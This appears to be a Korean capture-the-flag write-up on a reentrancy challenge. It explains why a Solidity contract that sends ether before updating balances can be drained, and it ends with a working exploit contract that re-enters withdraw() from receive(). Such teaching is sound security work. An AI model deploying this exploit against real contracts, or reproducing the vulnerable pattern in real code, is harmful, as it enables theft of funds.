

## 문제
### 지문
이 레벨의 목표는 문제 컨트랙트가 가지고 있는 모든 이더를 빼내는 것이다.
힌트는 크게 세 가지로 볼 수 있다.
- 신뢰할 수 없는 컨트랙트는 예상하지 못한 지점에서 코드를 실행할 수 있다.
- fallback 또는 `receive()` 함수가 이더 전송 중에 실행될 수 있다.
- 컨트랙트를 공격할 때는 EOA가 아니라 별도의 공격 컨트랙트를 사용하는 것이 자연스러울 때가 있다.
즉, 단순히 `withdraw()`를 한 번 호출하는 문제가 아니라, 이더를 받는 순간 다시 문제 컨트랙트를 호출하는 흐름을 만들어야 한다.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
## 배경지식

---

컨트랙트가 아무 calldata 없이 이더를 받으면 `receive()`가 실행된다. 이 문제의 공격 컨트랙트도 이 점을 이용한다.
문제 컨트랙트의 `withdraw()`는 `msg.sender.call{value: _amount}("")`로 이더를 보낸다. 이때 `msg.sender`가 컨트랙트라면, 그 컨트랙트의 `receive()`가 실행될 수 있다.
이 `receive()`는 단순히 이더를 받기만 하는 함수일 필요가 없다. 공격자는 `receive()` 안에서 다시 문제 컨트랙트의 `withdraw()`를 호출할 수 있다.

---

`call`은 low-level call이다. 함수 호출에도 쓰이고, 이더 전송에도 쓰인다.
```solidity
(bool result,) = msg.sender.call{value: _amount}("");
```
여기서는 빈 calldata와 함께 이더를 보내므로, 수신 컨트랙트의 `receive()`가 실행된다. 또 `transfer`와 다르게 남은 gas를 넉넉하게 넘겨줄 수 있어서, 수신 컨트랙트가 다시 외부 호출을 수행하기 쉽다.
`call` 자체가 항상 취약하다는 뜻은 아니다. 다만 상태 변경보다 외부 호출이 먼저 일어나면 reentrancy attack의 통로가 된다.

---

reentrancy attack은 외부 컨트랙트로 제어권을 넘긴 뒤, 아직 상태가 정리되지 않은 함수가 다시 호출되는 공격이다.
A를 취약한 은행 컨트랙트, B를 공격 컨트랙트라고 하자.
1. B가 A에 출금을 요청한다.
2. A가 B에게 이더를 보낸다.
3. B의 `receive()`가 실행된다.
4. B는 `receive()` 안에서 다시 A의 출금 함수를 호출한다.
5. A의 내부 잔액이 아직 차감되지 않았다면, 같은 잔액으로 다시 출금이 가능하다.
돈을 먼저 보내고 장부를 나중에 고치면, 같은 잔액을 기준으로 출금을 여러 번 반복할 수 있다.
## 문제 코드 분석

---

먼저 `balances`와 `donate()`를 보자.
```solidity
mapping(address => uint256) public balances;

function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
}
```
`balances`는 각 주소가 예치한 금액을 기록한다. `donate()`는 `_to` 주소의 잔액을 `msg.value`만큼 증가시킨다.
공격자는 여기서 `_to`를 `address(this)`, 즉 공격 컨트랙트 주소로 지정한다. 그래야 이후 문제 컨트랙트가 보는 `balances[msg.sender]`가 공격 컨트랙트의 잔액이 된다.

---

이제 `withdraw()`의 검증을 보자.
```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
```
`withdraw()`는 먼저 `balances[msg.sender]`가 `_amount` 이상인지 확인한다. 여기까지는 정상적인 출금 로직처럼 보인다.
하지만 이 검증은 함수 진입 시점의 장부 잔액만 본다. 출금 중간에 다시 `withdraw()`가 호출되면, 이전 호출의 잔액 차감이 아직 끝나지 않았기 때문에 같은 조건을 다시 통과할 수 있다.

---

외부 호출은 여기서 일어난다.
```solidity
(bool result,) = msg.sender.call{value: _amount}("");
if (result) {
    _amount;
}
```
이 부분에서 문제 컨트랙트는 `msg.sender`에게 이더를 보낸다. `msg.sender`가 공격 컨트랙트라면 공격 컨트랙트의 `receive()`가 실행된다.
즉, `withdraw()`는 아직 실행 중인데 제어권이 공격 컨트랙트로 넘어간다. 공격 컨트랙트는 이 시점에 다시 `withdraw()`를 호출할 수 있다.
`if (result) { _amount; }`는 실질적으로 아무 상태도 바꾸지 않는다. `result`를 확인하고 있지만, 성공했을 때 해야 할 장부 정리는 이 블록 안에 없다.

---

상태 업데이트는 마지막에 온다.
```solidity
balances[msg.sender] -= _amount;
```
잔액 차감은 이더 전송 이후에 실행된다. 따라서 순서가 다음처럼 된다.
1. 잔액이 충분한지 확인한다.
2. 이더를 먼저 보낸다.
3. 수신 컨트랙트의 `receive()`가 실행된다.
4. `receive()`에서 다시 `withdraw()`를 호출한다.
5. 가장 바깥쪽 호출로 돌아온 뒤에야 잔액을 차감한다.
`balances[msg.sender] -= _amount`가 외부 호출보다 먼저 실행됐다면, 다시 호출된 `withdraw()`는 이미 줄어든 잔액을 기준으로 검증을 받았을 것이다.
또한 이 코드는 Solidity 0.6.12 코드다. `donate()`의 덧셈에는 `SafeMath`를 쓰지만, 마지막 뺄셈은 그냥 `-=`를 쓴다. Solidity 0.8 이전의 기본 산술 연산은 underflow를 자동으로 revert하지 않는다. 다만 이 풀이에서는 underflow보다 외부 호출과 상태 업데이트의 순서를 사용한다.
## 풀이
공격 컨트랙트가 먼저 `donate()`로 자기 자신에게 잔액을 만들어둔다. 그 다음 `withdraw(value)`를 호출하면 문제 컨트랙트는 공격 컨트랙트로 이더를 보낸다.
이더를 받는 순간 공격 컨트랙트의 `receive()`가 실행된다. 여기서 다시 `withdraw()`를 호출하면, 문제 컨트랙트의 `balances[address(this)]`는 아직 차감되지 않은 상태이므로 같은 금액을 다시 출금할 수 있다.
문제 컨트랙트는 외부 호출을 먼저 하고 내부 장부를 나중에 수정한다. 공격 컨트랙트는 그 외부 호출로 실행되는 `receive()`에서 다시 `withdraw()`를 호출한다. 이 흐름을 반복하면 문제 컨트랙트의 실제 잔고가 바닥날 때까지 이더를 가져올 수 있다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface RE {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
    function balanceOf(address _who) external view returns (uint256 balance);
}

contract Exploit {
    RE public re;
    uint256 public value = 1000000000000000 wei;

    constructor (address _addr) payable {
        re = RE(_addr);
    }

    function attack() public payable{
        re.donate{value:value}(address(this));
        re.withdraw(value);
    }

  receive() external payable {
    uint256 balance = re.balanceOf(address(this));
            if (balance>0) {
            re.withdraw(balance);
        }
    }
}
```

